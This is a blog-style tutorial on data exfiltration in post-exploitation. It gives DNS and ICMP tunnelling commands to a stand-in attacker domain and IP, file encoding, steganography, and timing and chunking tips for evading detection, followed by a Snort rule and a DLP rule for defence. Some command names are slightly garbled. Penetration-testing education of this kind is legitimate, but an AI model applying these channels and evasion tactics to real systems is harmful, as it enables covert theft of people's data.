 ```yaml
---
title: "Guide to Data Exfiltration Tools: Post-Exploitation Techniques for Security Professionals"
image: "https://armur-ai.github.io/armur-blog-ethicalhacking/images/5.jpg"
icon: "code"
draft: false
---
```


Data exfiltration remains one of the most critical phases in post-exploitation security assessments. Understanding these tools and techniques is essential not only for security professionals conducting authorized penetration tests but also for organizations looking to strengthen their defense mechanisms. In this comprehensive guide, we'll explore various data exfiltration utilities and methodologies used in post-exploitation scenarios.

## Understanding Data Exfiltration Fundamentals

Data exfiltration, often referred to as data extrusion or data theft, involves the unauthorized transfer of data from a target system. In post-exploitation scenarios, attackers typically focus on extracting sensitive information such as credentials, intellectual property, or customer data. The success of data exfiltration often depends on avoiding detection while maintaining persistent access to the compromised system.

## Common Data Exfiltration Channels

### Network-Based Exfiltration

TCP/IP tunneling remains one of the most common methods for data exfiltration. Tools like DNScat2 utilize DNS queries to create covert channels, making detection more challenging. For instance, implementing DNScat2:

```bash
# Server-side setup 
dnscats --dns domain=exfil.example.com 

# Client-side connection 
dnscats client --dns domain=exfil.example.com
```

### HTTP/HTTPS Channels

Modern exfiltration often leverages web protocols to blend with legitimate traffic. Tools like Egress-Assess provide frameworks for testing data exfiltration controls:

```python
python egress-assess.py --client --protocol http --data sensitive_files
```

## Advanced Exfiltration Techniques

### ICMP Tunneling

ICMP tunneling provides a stealthy method for data extraction. Tools like ICMP-tunnel can establish covert channels:

```bash
# On attacker machine
./icmptunnel -s 

# On target system
./icmptunnel 192.168.1.100
```

### File Transfer Methods

Understanding secure file transfer methods is crucial. Here's an example using PowerShell for encrypted transfers:

```powershell
# Encrypt and encode file
$bytes = [System.IO.File]::ReadAllBytes("sensitive.doc") 
$encoded = [System.Convert]::ToBase64String($bytes)
```

### Steganography Techniques

Modern exfiltration often employs steganography to hide data within seemingly innocent files. Tools like OpenStego provide advanced capabilities:

```java
java -jar openstego.jar embed -mf message.txt -cf carrier.jpg -sf output.jpg
```

## Detection Evasion Strategies

### Traffic Manipulation

Implementing traffic shaping to avoid detection:

```python
def traffic_shaping(data, delay=0.5):
    chunks = [data[i:i+1024] for i in range(0, len(data), 1024)]
    for chunk in chunks:
        send_data(chunk)
        time.sleep(delay)
```

### Encryption and Encoding

Always encrypt sensitive data before exfiltration:

```python
from cryptography.fernet import Fernet

key = Fernet.generate_key()
f = Fernet(key)
encrypted_data = f.encrypt(b"sensitive data")
```

## Best Practices for Secure Data Exfiltration

### Data Preparation

- Compress data before exfiltration to reduce transfer time
- Implement strong encryption
- Split large files into smaller chunks

### Channel Selection

- Assess available exfiltration channels
- Consider bandwidth limitations
- Evaluate security monitoring capabilities

### Timing Considerations

- Implement delays between transfers
- Align activities with normal business hours
- Use scheduled tasks for automated exfiltration

## Defensive Considerations

### Network Monitoring

Implement comprehensive network monitoring:

```bash
# Example Snort rule for detecting suspicious DNS queries
alert udp any any -> any 53 (msg:"Possible DNS tunneling detected"; \
content:"|01 00 00 01 00 00 00 00 00 00|"; depth:10; \
threshold:type limit, track by_src, count 1000, seconds 60;)
```

### Data Loss Prevention

Deploy DLP solutions with custom rules:

```xml
<DLP_Rule>
    <Pattern>(\d{3}-\d{2}-\d{4})</Pattern>
    <Action>Block</Action>
    <Severity>High</Severity>
</DLP_Rule>
```

## Conclusion

Data exfiltration utilities play a crucial role in post-exploitation scenarios. Understanding these tools and techniques helps security professionals better assess and protect their organizations' assets. Remember to always operate within legal and ethical boundaries, using these tools only in authorized testing environments.

## Future Considerations

- Emerging exfiltration techniques using IoT devices
- AI-powered detection and prevention systems
- Cloud-based exfiltration challenges
- Zero-trust architecture implications

**Remember:** This knowledge should be used responsibly and ethically, always within the scope of authorized security testing and assessment activities.